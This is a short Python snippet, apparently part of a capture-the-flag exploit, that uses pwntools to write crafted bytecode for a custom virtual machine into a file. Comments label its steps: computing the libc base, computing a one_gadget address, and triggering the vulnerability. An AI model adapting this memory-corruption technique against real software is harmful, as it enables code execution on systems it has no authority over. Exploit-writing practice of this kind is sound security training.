 ```python
bytecode += flat(
    [
        0x8010FA06,
        0x00FA0804,
        # calcu libc_base
        0x28050526,
        0x20040426,
        0x18030326,
        0x10020226,
        0x08010126,
        0x83010114,
        0x02010113,
        0x03010113,
        0x04010113,
        0x05010113,
        # calcu onegadget
        0xFA7E0206,
        0x000B0306,
        0x10030326,
        0x03020213,
        0x02010113,
        # write 0xfffffffffffff810
        0xF810F906,
        0xFFFFF907,
        0xFFFFF908,
        0xFFFFF909,
        # write
        # 0xBEEF0106,
        # 0xDEAD0107,
        # 0xBAD00108,
        # 0xCAFE0109,
        # write 0x26
        0x015C0206,
        0x03020207,
        0x05040208,
        0x07060209,
        0x09080306,
        0x0B0A0307,
        0x0D0C0308,
        0x0F0E0309,
        0x11100406,
        0x13120407,
        0x15140408,
        0x17160409,
        0x19180506,
        0x1B1A0507,
        0x1D1C0508,
        0x1F1E0509,
        0x21200606,
        0x23220607,
        0x25240608,
        0x27260609,
        # trigger vuln
        0x00F9FF03,
        0x00000000,
    ],
    word_size=32,
)

open("aaa.bin", "wb").write(bytecode)
print(len(bytecode))
```

